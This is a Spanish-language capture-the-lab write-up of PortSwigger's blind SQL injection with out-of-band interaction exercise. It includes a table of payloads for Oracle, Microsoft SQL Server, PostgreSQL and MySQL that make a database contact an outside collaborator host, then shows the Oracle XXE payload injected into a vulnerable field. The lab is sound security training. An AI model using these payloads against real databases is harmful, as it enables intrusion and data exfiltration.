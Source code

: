 ```yaml
---
title: Blind SQL injection with out-of-band interaction - portswigger
date: 2024-08-04T00:00:00.000Z
categories:
  - Write up
  - portswigger
tags:
  - sql injection
---
```


# Lab: Blind SQL injection with out-of-band interaction

Puede hacer que la base de datos realice una búsqueda de DNS en un dominio externo. Para ello, deberá utilizar [Burp Collaborator](https://portswigger.net/burp/documentation/desktop/tools/collaborator) para generar un subdominio exclusivo de Burp Collaborator que utilizará en su ataque y, luego, sondear el servidor de Collaborator para confirmar que se realizó una búsqueda de DNS.

|            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |
| ---------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| Oracle     | <p>( <a href="https://portswigger.net/web-security/xxe">XXE</a> ) vulnerabilidad que activa una búsqueda de DNS. La vulnerabilidad ha sido corregida, pero existen muchas instalaciones de Oracle sin parches:<br><br><code>SELECT EXTRACTVALUE(xmltype('&#x3C;?xml version="1.0" encoding="UTF-8"?>&#x3C;!DOCTYPE root [ &#x3C;!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual</code><br><br>La siguiente técnica funciona en instalaciones de Oracle con todos los parches aplicados, pero requiere privilegios elevados:<br><br><code>SELECT UTL_INADDR.get_host_address('BURP-COLLABORATOR-SUBDOMAIN')</code></p> |
| Microsoft  | `exec master..xp_dirtree '//BURP-COLLABORATOR-SUBDOMAIN/a'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                       |
| PostgreSQL | `copy (SELECT '') to program 'nslookup BURP-COLLABORATOR-SUBDOMAIN'`                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                              |
| MySQL      | <p>Las siguientes técnicas funcionan sólo en Windows:<br><br><code>LOAD_FILE('\\\\BURP-COLLABORATOR-SUBDOMAIN\\a')</code><br><code>SELECT ... INTO OUTFILE '\\\\BURP-COLLABORATOR-SUBDOMAIN\a'</code></p>                                                                                                                                                                                                                                                                                                                                                                                                                                                         |
|            |                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                   |

Para este ejercicio debemos de tener en cuenta la anterior tabla. Ademas, tenemos que tener la version pro de `burpsuite` ya que haremos uso de `Burp Collaborator client`.

Haremos uso de la siguiente consulta:

```c
SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://BURP-COLLABORATOR-SUBDOMAIN/"> %remote;]>'),'/l') FROM dual
```

La anterior consulta la pondremos en el campo que es vulnerable pero dentro de `' || (<query>)-- -`

![20240805124630.png](20240805124630.png)

Luego tenemos que ponerlo en url encode para que no nos genere ningún error y enviamos la petición

![20240805124557.png](20240805124557.png)
